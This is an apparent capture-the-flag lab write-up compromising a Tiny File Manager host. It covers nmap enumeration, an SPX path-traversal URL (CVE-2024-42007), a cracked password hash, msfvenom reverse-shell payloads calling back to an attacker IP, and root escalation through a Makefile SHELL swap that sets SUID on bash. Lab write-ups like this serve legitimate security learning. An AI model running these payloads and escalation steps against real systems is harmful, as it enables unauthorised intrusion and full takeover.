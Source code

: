 #Pwned! 
```IP
192.168.192.108
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.192.108 -vvv -p- -oN enum/full
```
The output being:
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBYESg2KmNLhFh1KJaN2UFCVAEv6MWr58pqp2fIpCSBEK2wDJ5ap2XVBVGLk9Po4eKBbqTo96yttfVUvXWXoN3M=
|   256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBdIs4PWZ8yY2OQ6Jlk84Ihd5+15Nb3l0qvpf1ls3wfa
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Tiny File Manager
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## HTTP 80
apache 2.4.52
default credentials **admin/admin, admin/password, admin/admin@123 and user/12345** doesnt work

in /phpinfo.php we find SPX version 0.4.15 
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205115755.png?raw=true)


# Exploitation

we try to exploit SPX path traversal vulnerability
https://www.vicarius.io/vsociety/posts/novel-escape-from-the-spx-jungle-path-traversal-in-php-spx-cve-2024-42007
we get the following error
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205121754.png?raw=true)
reviewing the code we can see that the SPX_KEY parameter is set to 'dev'
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205121835.png?raw=true)

we have another key in the phpinfo.php
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205121918.png?raw=true)
lets edit the script and save it
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205121943.png?raw=true)
Now we get a file
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205122014.png?raw=true)

```
http://192.168.192.108/?SPX_KEY=a2a90ca2f9f0ea04d267b16fb8e63800&SPX_UI_URI=%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar%2fwww%2fhtml%2findex.php
```
with this we get the source code

which has some hashes
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205124146.png?raw=true)
```
$2y$10$7LaMUa8an8NrvnQsj5xZ3eDdOejgLyXE8IIvsC.hFy1dg7rPb9cqG
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205131500.png?raw=true)
once cracked, we try ssh to the machine unsuccessfully. We will try to exploit the authenticated rce from the web

```
msfvenom -p php/reverse_php LHOST=192.168.45.204 LPORT=80 -o ../shell.php
```
we upload the latter shell to http://192.168.192.108/index.php?p=&upload
and we execute it
http://192.168.192.108/shell.php
we have now revshell as www data
I created yet another shell for a more stable stty
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.204 LPORT=4444 -f elf > shell.elf
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205133923.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205133936.png?raw=true)


# PrivEsc

## Manual
```
su - profiler
```
lowprofile as password
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205154956.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205155212.png?raw=true)
it executes the following command
```
/bin/sh /root/php-spx/libtool --mode=install cp ./spx.la /root/php-spx/modules
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205155741.png?raw=true)
we change the following line
```
SHELL = /bin/sh
```
for
```
SHELL = /tmp/sh
```


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205160140.png?raw=true)
then we will create in the /tmp directory an sh file which will contain the following lines:
```
#!/bin/bash
chmod u+s /bin/bash
```
we execute once again our sudo command, which will execute our file /tmp/sh
```
sudo /usr/bin/make install -C /home/profiler/php-spx
```
and with 
```
bash -p
```
we assess that we are root now!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205160549.png?raw=true)

## Automated

### Peass
### Mimikatz

# Lateral Movement


